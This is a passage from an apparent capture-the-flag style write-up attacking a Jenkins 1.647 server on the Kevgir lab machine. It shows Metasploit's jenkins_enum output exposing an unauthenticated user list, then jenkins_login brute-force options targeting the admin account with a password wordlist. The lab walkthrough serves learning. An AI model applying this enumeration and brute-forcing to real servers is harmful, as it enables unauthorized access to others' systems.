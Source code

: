 I ran the enumeration module. Had to change the path to the root folder before I got any output:

``` 
msf auxiliary(jenkins_enum) > exploit

[+] 192.168.217.128:9000  - Jenkins Version 1.647
[*] /script restricted (403)
[*] /view/All/newJob restricted (403)
[+] http://192.168.217.128:9000/ - /asynchPeople/ does not require authentication (200)
[*] /systemInfo restricted (403)
```

This information did not mean much to me, but I went to the only folder that returned a 200 code and found the usernames recognized by the server

{% img center /images/pentest/kevgir/jenkins-admin.jpg 'jenkins admin' 'jenkins admin' %}

Knowing now there is an admin user, I went again to the bruteforce route, which was quite successful so far:

``` 
Module options (auxiliary/scanner/http/jenkins_login):

   Name              Current Setting                                     Required  Description
   ----              ---------------                                     --------  -----------
   BLANK_PASSWORDS   false                                               no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                                                   yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false                                               no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false                                               no        Add all passwords in the current database to the list
   DB_ALL_USERS      false                                               no        Add all users in the current database to the list
   HTTP_METHOD       POST                                                yes       The HTTP method to use for the login (Accepted: GET, POST)
   LOGIN_URL         /j_acegi_security_check                             yes       The URL that handles the login process
   PASSWORD                                                              no        A specific password to authenticate with
   PASS_FILE         /usr/share/wordlists/metasploit/unix_passwords.txt  no        File containing passwords, one per line
   Proxies                                                               no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS            192.168.217.128                                     yes       The target address range or CIDR identifier
   RPORT             9000                                                yes       The target port (TCP)
   SSL               false                                               no        Negotiate SSL/TLS for outgoing connections
   STOP_ON_SUCCESS   true                                                yes       Stop guessing when a credential works for a host
   THREADS           1                                                   yes       The number of concurrent threads
   USERNAME          admin                                               no        A specific username to authenticate as
   USERPASS_FILE                                                         no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false                                               no        Try the username as the password for all users
   USER_FILE                                                             no        File containing usernames, one per line
   VERBOSE           true                                                yes       Whether to print output for all attempts
```